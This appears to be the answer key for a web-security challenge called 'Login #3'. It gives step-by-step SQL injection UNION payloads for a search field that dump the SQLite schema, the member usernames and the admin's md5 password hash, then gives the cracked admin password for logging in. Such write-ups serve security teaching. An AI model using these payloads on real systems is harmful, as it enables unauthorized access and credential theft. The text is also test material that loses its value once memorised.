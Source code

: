 ## Login #3 Answer
Sources: https://www.sqlite.org/schematab.html
Admin password = Tr0ub4dor&3
### Instructions:
1. Find the tables made in the sqlite db using the following command in the search bar on `/search`:
```
y" UNION SELECT sql FROM sqlite_schema; --
```
2. Find all usernames in the members database by running
```
y" UNION SELECT username FROM members WHERE True; -- 
```
3. Find the admin's password
```
y" UNION SELECT hashed_password FROM members where username = "admin"; -- 
```
4. Reverse the md5 hash online using [this link](https://md5.gromweb.com/?md5=4ece57a61323b52ccffdbef021956754)
5. Enter "admin" in the username field and "Tr0ub4dor&3" in the password field at `/` 